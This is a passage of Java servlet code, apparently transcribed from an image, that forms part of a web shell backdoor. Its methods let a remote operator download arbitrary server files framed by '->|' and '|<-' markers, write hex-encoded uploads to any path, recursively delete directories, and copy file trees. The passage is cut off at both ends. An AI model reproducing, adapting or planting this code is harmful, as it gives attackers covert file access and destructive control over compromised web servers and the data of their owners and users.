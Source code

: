 ```
		}
		sb.append(sF);
	}
	
	void EE(String s) throws Exception {
		File f = new File(s);
		if (f.isDirectory()) {
			File x[] = f.listFiles();
			for (int k = 0; k < x.length; k++) {
				if (!x[k].delete()) {
					EE(x[k].getPath());
				}
			}
		}
		f.delete();
	}
	
	void FF(String s, HttpServletResponse r) throws Exception {
		int n;
		byte[] b = new byte[512];
		r.reset();
		ServletOutputStream os = r.getOutputStream();
		BufferedInputStream is = new BufferedInputStream(new FileInputStream(s));
		os.write(("->" + "|").getBytes(), 0, 3);
		while ((n = is.read(b, 0, 512)) != -1) {
			os.write(b, 0, n);
		}
		os.write(("|" + "<-").getBytes(), 0, 3);
		os.close();
		is.close();
	}
	
	void GG(String s, String d) throws Exception {
		String h = "0123456789ABCDEF";
		File f = new File(s);
		f.createNewFile();
		FileOutputStream os = new FileOutputStream(f);
		for (int i = 0; i < d.length(); i += 2) {
			os.write((h.indexOf(d.charAt(i)) << 4 | h.indexOf(d.charAt(i + 1))));
		}
		os.close();
	}
	
	void HH(String s, String d) throws Exception {
		File sf = new File(s), df = new File(d);
		if (sf.isDirectory()) {
			if (!df.exists()) {
				df.mkdir();
			}
			File z[] = sf.listFiles();
			for (int j = 0; j < z.length; j++) {
				HH(s + "/" + z[j].getName(), d + "/" + z[j].getName());
			}
		} else {
			FileInputStream is = new FileInputStream(sf);
			FileOutputStream os = new FileOutputStream(df);
			int n;
			byte[] b = new byte[512];
			while ((n = is.read(b, 0, 512)) != -1) {
				os.write(b, 0, n);
			}
			is.close();
			os.close();
```